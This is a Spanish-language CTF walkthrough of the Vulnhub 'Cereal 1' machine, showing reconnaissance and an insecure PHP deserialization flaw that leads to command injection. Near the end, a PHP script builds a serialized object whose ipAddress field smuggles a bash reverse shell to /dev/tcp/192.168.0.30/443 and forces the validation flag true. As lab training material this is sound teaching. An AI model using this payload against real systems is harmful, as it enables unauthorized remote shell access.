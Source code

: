 Un ataque de deserialización es una vulnerabilidad de seguridad que ocurre cuando una aplicación deserializa (convierte en objeto) datos provenientes de una fuente externa, como una solicitud de red o un archivo. Esta vulnerabilidad puede ser explotada por un atacante malintencionado para ejecutar código malicioso o manipular datos en la aplicación objetivo.

-------------------

Para esta vulnerabilidad vamos a practicar con la máquina cereal 1 de vulnhub:
![[Pasted image 20240612162458.png]]

Hacemos un escaneo con nmap, donde nos fijaremos en lo que corre por la web:
![[Pasted image 20240612162508.png]]

Esta es la web:
![[Pasted image 20240612162518.png]]

Hacemos fuzzing, donde tenemos el directorio /blog y /admin:
![[Pasted image 20240612162523.png]]

Vemos que la web en el directorio /blog no se ve correctamente:
![[Pasted image 20240612162531.png]]

Y esto es debido a que es posible que se esté aplicando virtual hosting, por lo que miramos el código fuente y vemos que los recursos los está intentando cargar de un cereal.cft:
![[Pasted image 20240612162536.png]]

Por lo que tenemos que añadirlo al /etc/hosts:
![[Pasted image 20240612162540.png]]

Y ahora ya se ve bien:
![[Pasted image 20240612162547.png]]

Ahora si miramos el otro puerto 44441 que también corría un servicio HTTP, vemos que nos sale lo siguiente:
![[Pasted image 20240612162552.png]]

Y dentro de este puerto vamos a buscar subdominios y añadimos el que nos encontró:
```bash
gobuster vhost -u http://cereal.ctf:44441/ -w subdomains-top1million-5000.txt 
```

![[Pasted image 20240612162558.png]]

Y accedemos a este panel:
![[Pasted image 20240612162603.png]]

Podemos probar si se ejecuta de verdad un ping poniéndonos en escucha con tcpdump con este parámetro y vemos que hay conectividad:
```bash
tcpdump -i eth0 -n
```

![[Pasted image 20240612162614.png]]

Vamos a volver a ejecutar un ping pero interceptamos la petición con burpsuite:
![[Pasted image 20240612162621.png]]

Y tenemos un objeto con información:
![[Pasted image 20240612162632.png]]

Pero esa data viene url encodeada, para decodificarla podemos presionar control + shift + u:
![[Pasted image 20240612162647.png]]

Ahora en este punto, hay un directorio dentro de la máquina donde podemos ver cómo se efectúa esta deserialización por detrás, por tanto para encontrar esta ubicación podemos usar gobuster nuevamente pero con un diccionario mucho más grande:

Y esta es la ubicación donde no tenemos permisos:
![[Pasted image 20240612162653.png]]

Pero ahora podemos hacer búsqueda por extensiones de archivos, donde tras ir probando extensiones, nos encontramos el /index.php.bak:
![[Pasted image 20240612162700.png]]

Y nos encontramos con esto:
![[Pasted image 20240612162706.png]]

Y si miramos el código fuente, podemos acceder a cómo se tramita la deserialización por detrás:
```php
<?php

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
		object = object.substr(object.indexOf(\"{\"),object.length);
		object = \"O:8:\\\"pingTest\\\":1:\" + object;
		document.forms[\"ipform\"].obj.value = object;
		document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
	<div class=\"form-content\">
	    <div class=\"form-items\">
		<h3>Ping Test</h3>
		
		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```

![[Pasted image 20240612162719.png]]
Y aquí en esta parte podemos ver cómo se valida que el input sea una IP y no se pueda colar ningún otro comando; pero nuestro objetivo es poder insertar un comando dentro de la variable ipAddress:
![[Pasted image 20240612162723.png]]

Por tanto vamos a crear un nuevo fichero con la data del principio manipulada para después serializarlo y colarlo en burp suite para ejecutar un comando de forma remota:
```php
<?php

class pingTest {
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.30/443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));
```

![[Pasted image 20240612162732.png]]
Si lo ejecutamos, gracias al echo del final, tendremos el texto deserializado:
![[Pasted image 20230711121239.png]]
Por tanto volvemos a la ventana del principio e interceptamos nuevamente la petición:
![[Pasted image 20240612162737.png]]

![[Pasted image 20240612162746.png]]

Si pegamos en la última línea el código serializado de antes con el código malicioso, lograremos ejecutar un comando de forma remota, y por tanto obtener una reverse shell:
![[Pasted image 20240612162813.png]]

![[Pasted image 20240612162816.png]]

Si lo ejecutamos, obtenemos una reverse shell:

![[Pasted image 20240612162825.png]]